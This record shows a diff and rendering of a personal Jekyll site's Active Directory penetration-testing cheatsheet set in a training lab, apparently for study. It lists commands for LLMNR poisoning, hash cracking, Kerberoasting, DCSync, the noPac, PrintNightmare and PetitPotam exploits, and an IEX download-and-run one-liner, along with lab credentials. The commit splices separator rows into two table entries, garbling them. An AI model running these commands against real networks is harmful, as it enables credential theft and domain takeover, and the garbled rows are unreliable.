

Before and after one commit to sahabrifki/sahabrifki.github.io, a Jekyll site: the page built from Cheatsheet.md, in a window 1280 px wide and 1400 px high, scrolled down 21563 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files; some of the changed text lies outside the part shown.

```diff
--- a/Cheatsheet.md
+++ b/Cheatsheet.md
@@ -2,7 +2,7 @@
 
 | Command                                                      | Description                                                  |
 | ------------------------------------------------------------ | ------------------------------------------------------------ |
-
+| ------------------------------------------------------------ | ------------------------------------------------------------ |
 | `nslookup ns1.inlanefreight.com`                             | Used to query the domain name system and discover the IP address to domain name mapping of the target entered from a Linux-based host. |
 | `sudo tcpdump -i ens224`                                     | Used to start capturing network packets on the network interface proceeding the `-i` option a Linux-based host. |
 | `sudo responder -I ens224 -A`                                | Used to start responding to & analyzing `LLMNR`, `NBT-NS` and `MDNS` queries on the interface specified proceeding the` -I` option and operating in `Passive Analysis` mode which is activated using `-A`. Performed from a Linux-based host |
@@ -21,7 +21,7 @@
 
 | Command                                                      | Description                                                  |
 | ------------------------------------------------------------ | ------------------------------------------------------------ |
-
+| ------------------------------------------------------------ | ------------------------------------------------------------ |
 | `responder -h`                                               | Used to display the usage instructions and various options available in `Responder` from a Linux-based host. |
 | `hashcat -m 5600 forend_ntlmv2 /usr/share/wordlists/rockyou.txt` | Uses `hashcat` to crack `NTLMv2` (`-m`) hashes that were captured by responder and saved in a file (`frond_ntlmv2`). The cracking is done based on a specified wordlist. |
 | `Import-Module .\Inveigh.ps1`                                | Using the `Import-Module` PowerShell cmd-let to import the Windows-based tool `Inveigh.ps1`. |
@@ -36,7 +36,7 @@
 
 | Command                                                      | Description                                                  |
 | ------------------------------------------------------------ | ------------------------------------------------------------ |
-
+| ------------------------------------------------------------ | ------------------------------------------------------------ |
 | `crackmapexec smb 172.16.5.5 -u avazquez -p Password123 --pass-pol` | Used `CrackMapExec`and valid credentials (`avazquez:Password123`) to enumerate the password policy (`--pass-pol`) from a Linux-based host. |
 | `rpcclient -U "" -N 172.16.5.5`                              | Uses `rpcclient` to discover information about the domain through `SMB NULL` sessions. Performed from a Linux-based host. |
 | `rpcclient $> querydominfo`                                  | Uses `rpcclient` to enumerate the password policy in a target Windows domain from a Linux-based host.|
@@ -65,7 +65,7 @@
 
 | Command                                                      | Description                                                  |
 | ------------------------------------------------------------ | ------------------------------------------------------------ |
-
+| ------------------------------------------------------------ | ------------------------------------------------------------ |
 | `xfreerdp /u:forend@inlanefreight.local /p:Klmcargo2 /v:172.16.5.25` | Connects to a Windows target using valid credentials. Performed from a Linux-based host. |
 | `sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --users` | Authenticates with a Windows target over `smb` using valid credentials and attempts to discover more users (`--users`) in a target Windows domain. Performed from a Linux-based host. |
 | `sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --groups` | Authenticates with a Windows target over `smb` using valid credentials and attempts to discover groups (`--groups`) in a target Windows domain. Performed from a Linux-based host. |
@@ -87,7 +87,7 @@
 
 | Command                                                      | Description                                                  |
 | ------------------------------------------------------------ | ------------------------------------------------------------ |
-
+| ------------------------------------------------------------ | ------------------------------------------------------------ |
 | `Get-Module`                                                 | PowerShell cmd-let used to list all available modules, their version and command options from a Windows-based host. |
 | `Import-Module ActiveDirectory`                              | Loads the `Active Directory` PowerShell module from a Windows-based host. |
 | `Get-ADDomain`                                               | PowerShell cmd-let used to gather Windows domain information from a Windows-based host. |
@@ -133,7 +133,7 @@
 
 | Command                                                      | Description                                                  |
 | ------------------------------------------------------------ | ------------------------------------------------------------ |
-
+| ------------------------------------------------------------ | ------------------------------------------------------------ |
 | `sudo python3 -m http.server 8001`                           | Starts a python web server for quick hosting of files. Performed from a Linux-basd host. |
 | `"IEX(New-Object Net.WebClient).downloadString('http://172.16.5.222/SharpHound.exe')"` | PowerShell one-liner used to download a file from a web server. Performed from a Windows-based host. |
 | `impacket-smbserver -ip 172.16.5.x -smb2support -username user -password password shared /home/administrator/Downloads/` | Starts a impacket `SMB` server for quick hosting of a file. Performed from a Windows-based host. |
@@ -144,7 +144,7 @@
 
 | Command                                                      | Description                                                  |
 | ------------------------------------------------------------ | ------------------------------------------------------------ |
-
+| ------------------------------------------------------------ | ------------------------------------------------------------ |
 | `sudo python3 -m pip install .`                              | Used to install Impacket from inside the directory that gets cloned to the attack host. Performed from a Linux-based host. |
 | `GetUserSPNs.py -h`                                          | Impacket tool used to display the options and functionality of `GetUserSPNs.py` from a Linux-based host. |
 | `GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/mholliday` | Impacket tool used to get a list of `SPNs` on the target Windows domain from  a Linux-based host. |
@@ -180,7 +180,7 @@
 
 | Command                                                      | Description                                                  |
 | ------------------------------------------------------------ | ------------------------------------------------------------ |
-
+| ------------------------------------------------------------ | ------------------------------------------------------------ |
 | `Find-InterestingDomainAcl`                                  | PowerView tool used to find object ACLs in the target Windows domain with modification rights set to non-built in objects from a Windows-based host. |
 | `Import-Module .\PowerView.ps1  $sid = Convert-NameToSid wley` | Used to import PowerView and retrieve the `SID` of a specific user account (`wley`) from a Windows-based host. |
 | `Get-DomainObjectACL -Identity * \| ? {$_.SecurityIdentifier -eq $sid}` | Used to find all Windows domain objects that the user has rights over by mapping the user's `SID` to the `SecurityIdentifier` property from a Windows-based host. |
@@ -205,7 +205,7 @@
 
 | Command                                                      | Description                                                  |
 | ------------------------------------------------------------ | ------------------------------------------------------------ |
-
+| ------------------------------------------------------------ | ------------------------------------------------------------ |
 | `Get-DomainUser -Identity adunn  \| select samaccountname,objectsid,memberof,useraccountcontrol \|fl` | PowerView tool used to view the group membership of a specific user (`adunn`) in a target Windows domain. Performed from a Windows-based host. |
 | `$sid= "S-1-5-21-3842939050-3880317879-2865463114-1164" Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs \| ? { ($_.ObjectAceType -match 'Replication-Get')} \| ?{$_.SecurityIdentifier -match $sid} \| select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType \| fl` | Used to create a variable called SID that is set equal to the SID of a user account. Then uses PowerView tool `Get-ObjectAcl` to check a specific user's replication rights. Performed from a Windows-based host. |
 | `secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5 -use-vss` | Impacket tool sed to extract NTLM hashes from the NTDS.dit file hosted on a target Domain Controller (`172.16.5.5`) and save the extracted hashes to an file (`inlanefreight_hashes`). Performed from a Linux-based host. |
@@ -217,7 +217,7 @@
 
 | Command                                                      | Description                                                  |
 | ------------------------------------------------------------ | ------------------------------------------------------------ |
-
+| ------------------------------------------------------------ | ------------------------------------------------------------ |
 | `Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Desktop Users"` | PowerView based tool to used to enumerate the `Remote Desktop Users` group on a Windows target (`-ComputerName ACADEMY-EA-MS01`) from a Windows-based host. |
 | `Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Management Users"` | PowerView based tool to used to enumerate the `Remote Management Users` group on a Windows target (`-ComputerName ACADEMY-EA-MS01`) from a Windows-based host. |
 | `$password = ConvertTo-SecureString "Klmcargo2" -AsPlainText -Force` | Creates a variable (`$password`) set equal to the password (`Klmcargo2`) of a user from a Windows-based host. |
@@ -239,7 +239,7 @@
 
 | Command                                                      | Description                                                  |
 | ------------------------------------------------------------ | ------------------------------------------------------------ |
-
+| ------------------------------------------------------------ | ------------------------------------------------------------ |
 | `sudo git clone https://github.com/Ridter/noPac.git`         | Used to clone a `noPac` exploit using git. Performed from a Linux-based host. |
 | `sudo python3 scanner.py inlanefreight.local/forend:Klmcargo2 -dc-ip 172.16.5.5 -use-ldap` | Runs `scanner.py` to check if a target system is vulnerable to `noPac`/`Sam_The_Admin` from a Linux-based host. |
 | `sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 -shell --impersonate administrator -use-ldap` | Used to exploit the `noPac`/`Sam_The_Admin`  vulnerability and gain a SYSTEM shell (`-shell`). Performed from a Linux-based host. |
@@ -251,7 +251,7 @@
 
 | Command                                                      | Description                                                  |
 | ------------------------------------------------------------ | ------------------------------------------------------------ |
-
+| ------------------------------------------------------------ | ------------------------------------------------------------ |
 | `git clone https://github.com/cube0x0/CVE-2021-1675.git`     | Used to clone a PrintNightmare exploit  using git from a Linux-based host. |
 | `pip3 uninstall impacket git clone https://github.com/cube0x0/impacket cd impacket python3 ./setup.py install` | Used to ensure the exploit author's (`cube0x0`) version of Impacket is installed. This also uninstalls any previous Impacket version on a Linux-based host. |
 | `rpcdump.py @172.16.5.5 \| egrep 'MS-RPRN\|MS-PAR'`            | Used to check if a Windows target has `MS-PAR` & `MSRPRN` exposed from a Linux-based host. |
@@ -265,7 +265,7 @@
 
 | Command                                                      | Description                                                  |
 | ------------------------------------------------------------ | ------------------------------------------------------------ |
-
+| ------------------------------------------------------------ | ------------------------------------------------------------ |
 | `sudo ntlmrelayx.py -debug -smb2support --target http://ACADEMY-EA-CA01.INLANEFREIGHT.LOCAL/certsrv/certfnsh.asp --adcs --template DomainController` | Impacket tool used to create an `NTLM relay` by specifiying the web enrollment URL for the `Certificate Authority` host. Perfomred from a Linux-based host. |
 | `git clone https://github.com/topotam/PetitPotam.git`        | Used to clone the `PetitPotam` exploit using git. Performed from a Linux-based host. |
 | `python3 PetitPotam.py 172.16.5.225 172.16.5.5`              | Used to execute the PetitPotam exploit by  specifying the IP address of the attack host (`172.16.5.255`) and the target Domain Controller (`172.16.5.5`). Performed from a Linux-based host. |
@@ -283,7 +283,7 @@
 
 | Command                                                      | Description                                                  |
 | ------------------------------------------------------------ | ------------------------------------------------------------ |
-
+| ------------------------------------------------------------ | ------------------------------------------------------------ |
 | `Import-Module .\SecurityAssessment.ps1`                     | Used to import the module `Security Assessment.ps1`. Performed from a Windows-based host. |
 | `Get-SpoolStatus -ComputerName ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL` | SecurityAssessment.ps1 based tool used to enumerate a Windows target for `MS-PRN Printer bug`. Performed from a Windows-based host. |
 | `adidnsdump -u inlanefreight\\forend ldap://172.16.5.5`      | Used to resolve all records in a DNS zone over `LDAP` from a Linux-based host. |
@@ -296,7 +296,7 @@
 
 | Command                                                      | Description                                                  |
 | ------------------------------------------------------------ | ------------------------------------------------------------ |
-
+| ------------------------------------------------------------ | ------------------------------------------------------------ |
 | `gpp-decrypt VPe/o9YRyz2cksnYRbNeQj35w9KxQ5ttbvtRaAVqxaE`    | Tool used to decrypt a captured `group policy preference password` from a Linux-based host. |
 | `crackmapexec smb -L \| grep gpp`                              | Locates and retrieves a `group policy preference password` using `CrackMapExec`, the filters the output using `grep`. Peformed from a Linux-based host. |
 | `crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M gpp_autologin` | Locates and retrieves any credentials stored in the `SYSVOL` share of a Windows target using `CrackMapExec` from a Linux-based host. |
@@ -312,7 +312,7 @@
 
 | Command                                                      | Description                                                  |
 | ------------------------------------------------------------ | ------------------------------------------------------------ |
-
+| ------------------------------------------------------------ | ------------------------------------------------------------ |
 | `Get-DomainUser -PreauthNotRequired \| select samaccountname,userprincipalname,useraccountcontrol \| fl` | PowerView based tool used to search for the `DONT_REQ_PREAUTH` value across in user accounts in a target Windows domain. Performed from a Windows-based host. |
 | `.\Rubeus.exe asreproast /user:mmorgan /nowrap /format:hashcat` | Uses `Rubeus` to perform an `ASEP Roasting attack` and formats the output for `Hashcat`. Performed from a Windows-based host. |
 | `hashcat -m 18200 ilfreight_asrep /usr/share/wordlists/rockyou.txt ` | Uses `Hashcat` to attempt to crack the captured hash using a wordlist (`rockyou.txt`). Performed from a Linux-based host. |
@@ -324,12 +324,12 @@
 
 | Command                                                      | Description                                                  |
 | ------------------------------------------------------------ | ------------------------------------------------------------ |
-
+| ------------------------------------------------------------ | ------------------------------------------------------------ |
 | `Import-Module activedirectory`                              | Used to import the `Active Directory` module. Performed from a Windows-based host. |
 | `Get-ADTrust -Filter *`                                      | PowerShell cmd-let used to enumerate a target Windows domain's trust relationships. Performed from a Windows-based host. |
 | `Get-DomainTrust `                                           | PowerView tool used to enumerate a target Windows domain's trust relationships. Performed from a Windows-based host. |
 | `Get-DomainTrustMapping`                                     | PowerView tool used to perform a domain trust mapping from a Windows-based host. |
-| `Get-DomainUser -Domain LOGISTICS.INLANEFREIGHT.LOCAL \| select SamAccountName` | PowerView tools used to enumerate users in a target child domain from a Windows-based host. |
+| `Get-DomainUser -Domain LOGISTICS.INLANEFREIGHT.LOCAL \| select SamAccountName` | PowerView tools used to enumerate users in | ------------------------------------------------------------ | ------------------------------------------------------------ |a target child domain from a Windows-based host. |
 | `mimikatz # lsadump::dcsync /user:LOGISTICS\krbtgt`          | Uses Mimikatz to obtain the `KRBTGT` account's `NT Hash` from a Windows-based host. |
 | `Get-DomainSID`                                              | PowerView tool used to get the SID for a target child domain from a Windows-based host. |
 | `Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" \| select distinguishedname,objectsid` | PowerView tool used to obtain the `Enterprise Admins` group's SID from a Windows-based host. |
@@ -352,9 +352,9 @@
 
 | Command                                                      | Description                                                  |
 | ------------------------------------------------------------ | ------------------------------------------------------------ |
-
+| ------------------------------------------------------------ | ------------------------------------------------------------ |
 | `Get-DomainUser -SPN -Domain FREIGHTLOGISTICS.LOCAL \| select SamAccountName` | PowerView tool used to enumerate accounts for associated `SPNs` from a Windows-based host. |
-| `Get-DomainUser -Domain FREIGHTLOGISTICS.LOCAL -Identity mssqlsvc \| select samaccountname,memberof` | PowerView tool used to enumerate the `mssqlsvc` account from a Windows-based host. |
+| `Get-DomainUser -Domain FREIGHTLOGISTICS.LOCAL -Identity mssqlsvc \| select samaccountname,memberof` | PowerView tool used to enumerate the `mssqlsvc` account from a Windows-based host. || ------------------------------------------------------------ | ------------------------------------------------------------ |
 | ` .\Rubeus.exe kerberoast /domain:FREIGHTLOGISTICS.LOCAL /user:mssqlsvc /nowrap` | Uses `Rubeus` to perform a Kerberoasting Attack against a target Windows domain (`/domain:FREIGHTLOGISTICS.local`) from a Windows-based host. |
 | `Get-DomainForeignGroupMember -Domain FREIGHTLOGISTICS.LOCAL` | PowerView tool used to enumerate groups with users that do not belong to the domain from a Windows-based host. |
 | `Enter-PSSession -ComputerName ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL -Credential INLANEFREIGHT\administrator` | PowerShell cmd-let used to remotely connect to a target Windows system from a Windows-based host. |
```
